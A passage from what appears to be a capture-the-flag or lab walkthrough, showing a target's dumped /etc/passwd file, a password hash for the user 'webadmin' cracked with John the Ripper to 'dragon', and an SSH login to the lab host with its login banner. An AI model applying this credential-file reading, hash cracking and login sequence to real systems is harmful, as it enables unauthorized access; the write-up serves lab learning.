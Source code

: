 ```bash
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
</PRE>
```

It worked and we see that there is a `hash` inside the file, which is not very common and indeed not secure at all.  
`webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash`

> Cracking the hash with `john` reveals password the password `dragon`
{: .prompt-info }

## logging in via ssh and first flag

```bash
$ ssh webadmin@192.168.153.101
The authenticity of host '192.168.153.101 (192.168.153.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.153.101' (ED25519) to the list of known hosts.
webadmin@192.168.153.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 08 Feb 2022 08:19:58 PM UTC

  System load:  0.0                Processes:               151
  Usage of /:   12.2% of 31.37GB   Users logged in:         0
  Memory usage: 25%                IPv4 address for ens192: 192.168.153.101
  Swap usage:   0%


118 updates can be installed immediately.
33 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

```